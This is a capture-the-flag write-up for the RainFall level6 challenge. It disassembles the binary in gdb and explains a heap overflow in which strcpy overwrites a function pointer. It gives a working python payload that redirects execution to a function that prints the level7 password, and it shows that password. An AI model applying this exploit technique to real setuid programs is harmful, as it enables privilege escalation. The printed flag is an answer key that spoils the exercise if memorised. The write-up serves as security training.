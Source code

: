 # Level 6

- We login as user level6:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

```
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
level6@RainFall:~$ gdb level6
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```


- Let's identify most important orders:
```
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
```
>Allocate a block of memory of 0x40 (64 in decimal) bytes in the heap. Then, store the addresses of the allocated memory blocks in the stack (at `0x1c(%esp)`).

```
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
```
>Allocate a block of memory of 0x4 (4 in decimal) bytes in the heap. Then, store the addresses of the allocated memory blocks in the stack (at `0x18(%esp)`).

```
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
```
>`0x8048468 <m>: 0x83e58955`

>Put the address of `<m>` in the second memory zone allocated by malloc (the one with 4 bytes whose address is stored in `0x18(%esp)`).

```
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx

   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
```
>Place the address of the first parameter given to the program (located at `0xc(%ebp) + 0x4`) into the `edx` register.

>Copy the content of the first parameter given to the program into the first memory area allocated by malloc (the one with 64 bytes, whose address is stored at `0x1c(%esp)`).

```
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
```
>Attempt to execute the function whose starting address is stored at `0x18(%esp)`.


- Thus, the program attempt to execute the function `<m>`:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048454  n
0x08048468  m
0x0804847c  main
...
```

```
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```
>`0x80485d1: "Nope"`

>This function prints "Nope".

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```
>`0x80485b0: "/bin/cat /home/user/level7/.pass"`

>This function prints our flag.


- Instead of the function `<m>`, we would like to execute the function `<n>`.
Given that the memory area that stores the address of the function to be executed is allocated on the heap just after the memory area that should receive our input, and since `strcpy` copies the entire source into the destination, we only need to know from how many characters the address of this function begins to be rewritten, and write the address of function `<n>` in its place.
```
(gdb) b*0x080484d0
```

```
(gdb) r $(python -c "print 'a'*72 + 'BBBBcccc'")
...
(gdb) x $eax
0x42424242:      <Address 0x42424242 out of bounds>
```

```
(gdb) r $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
...
(gdb) x/i $eax
  0x8048454 <n>:       push   %ebp
```

```
level6@RainFall:~$ ./level6 $(python -c "print 'a'*72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```